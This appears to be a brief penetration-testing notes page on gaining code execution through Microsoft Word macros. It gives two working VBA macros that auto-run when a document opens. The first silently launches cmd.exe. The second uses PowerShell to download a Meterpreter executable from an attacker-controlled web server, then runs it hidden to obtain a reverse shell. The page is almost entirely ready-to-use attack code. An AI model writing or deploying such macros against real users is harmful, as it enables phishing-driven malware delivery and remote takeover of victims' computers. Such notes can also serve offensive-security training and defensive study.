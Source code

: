 # Client side code exec using microsoft office

## Create vba macro to execute cmd
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```

## Create vba macro to download meterpreter executable and execute it
We built a Word document that pulls the Meterpreter executable from our web server when the document is opened (and macros are enabled). 

We added a small time delay to allow the file to completely download. We then executed the file hidden from the user. This results in a reverse Meterpreter shell.
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
